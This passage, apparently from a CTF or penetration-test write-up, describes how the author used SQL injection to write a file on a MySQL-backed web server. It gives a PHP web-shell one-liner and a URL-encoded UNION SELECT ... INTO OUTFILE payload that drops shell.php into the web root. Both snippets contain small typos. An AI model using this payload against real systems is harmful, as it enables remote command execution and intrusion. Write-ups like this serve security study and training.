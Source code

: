 ![](./IMG/53.png)

- Then I start to research how to write a file by sql injection payload 
- [高权限下的Mysql利用总结)](https://forum.90sec.com/t/topic/1728)

![](./IMG/50.png)

> In above article, maybe it's possible to use select .. into outfile
> Generating file which name is shell.php with content 


```
<?php system($_GET['test')); ?>
```

> Payload:
```
100%20UNION%20SELECT%201,"<?php system($_GET['test')); ?>",3,4,5,6,7%20INTO%OUTFILE%20'/var/www/html/shell.php';--%20-
```
